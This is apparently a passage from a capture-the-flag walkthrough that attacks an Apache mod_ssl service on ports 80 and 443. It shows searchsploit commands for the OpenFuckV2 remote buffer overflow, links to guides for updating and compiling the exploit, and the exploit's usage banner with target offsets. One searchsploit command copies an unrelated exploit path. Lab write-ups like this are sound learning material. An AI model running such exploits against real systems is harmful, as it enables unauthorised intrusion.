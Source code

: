 # [](#header-2)Port(s) 80 and 443/Apache

Alright lets grab a copy of the ExploitDB module for this version of Apache/mod_ssl and have a look at what's going on.

`$ searchsploit openfuckv2`

```
--------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                                                                     |  Path
                                                                                                                                                   | (/usr/share/exploitdb/)
--------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (1)                                                                         | exploits/unix/remote/764.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (2)                                                                         | exploits/unix/remote/47080.c
--------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```

`$ searchsploit -m exploits/php/webapps/39646.py`

We'll follow the linked [instructions](https://paulsec.github.io/blog/2014/04/14/updating-openfuck-exploit/) to update the exploit and [these](https://www.hypn.za.net/blog/2017/08/27/compiling-exploit-764-c-in-2017/) instructions to get it to compile using a modern version of `libssl-dev` and...

`./OpenFuck`

```
*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

: Usage: ./OpenFuck target box [port] [-c N]

  target - supported box eg: 0x00
  box - hostname or IP address
  port - port for ssl connection
  -c open N connections. (use range 40-50 if u dont know)
  

  Supported OffSet:
	0x00 - Caldera OpenLinux (apache-1.3.26)
	0x01 - Cobalt Sun 6.0 (apache-1.3.12)
	0x02 - Cobalt Sun 6.0 (apache-1.3.20)
	0x03 - Cobalt Sun x (apache-1.3.26)
	0x04 - Cobalt Sun x Fixed2 (apache-1.3.26)
	0x05 - Conectiva 4 (apache-1.3.6)
	0x06 - Conectiva 4.1 (apache-1.3.9)
	0x07 - Conectiva 6 (apache-1.3.14)
	0x08 - Conectiva 7 (apache-1.3.12)
	0x09 - Conectiva 7 (apache-1.3.19)
	0x0a - Conectiva 7/8 (apache-1.3.26)
	0x0b - Conectiva 8 (apache-1.3.22)
	0x0c - Debian GNU Linux 2.2 Potato (apache_1.3.9-14.1)
```